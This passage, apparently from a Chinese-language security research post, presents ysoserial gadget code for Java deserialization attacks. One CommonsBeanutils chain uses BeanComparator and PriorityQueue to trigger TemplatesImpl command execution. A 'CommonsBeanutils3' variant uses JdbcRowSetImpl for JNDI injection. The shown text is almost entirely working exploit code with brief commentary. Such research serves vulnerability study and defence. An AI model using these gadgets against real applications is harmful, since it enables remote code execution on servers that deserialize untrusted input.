 ![image-20230809114338774](attachments/image-20230809114338774.png)

最终 ysoserial gadget 如下，为了兼容性使用了 BigInteger 的 `lowestSetBit` 属性，当然直接去掉后传 null 也行。

```java
    public Object getObject(final String command) throws Exception {
      final Object templates = Gadgets.createTemplatesImpl(command);
      // mock method name until armed
      final BeanComparator comparator = new BeanComparator("lowestSetBit");

      // create queue with numbers and basic comparator
      final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
      // stub data for replacement later
      queue.add(new BigInteger("1"));
      queue.add(new BigInteger("1"));

      // switch method called by comparator
      Reflections.setFieldValue(comparator, "property", "outputProperties");

      // switch contents of queue
      Reflections.setFieldValue(queue, "queue", new Object[]{templates, templates});

      return queue;
   }
```

## 0x03 CommonsBeanutils3

除此之外，还可以利用`PropertyUtils#getProperty()` 的特性，用  com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData() 实现 JNDI 注入

```java
public Object getObject(final String command) throws Exception {
    JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
    jdbcRowSet.setDataSourceName(command);
    jdbcRowSet.setMatchColumn("foo");
    // mock method name until armed
    final BeanComparator comparator = new BeanComparator("lowestSetBit");

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    // stub data for replacement later
    queue.add(new BigInteger("1"));
    queue.add(new BigInteger("1"));

    // switch method called by comparator
    Reflections.setFieldValue(comparator, "property", "databaseMetaData");

    // switch contents of queue
    Reflections.setFieldValue(queue, "queue", new Object[]{jdbcRowSet, jdbcRowSet});

    return queue;
}
```
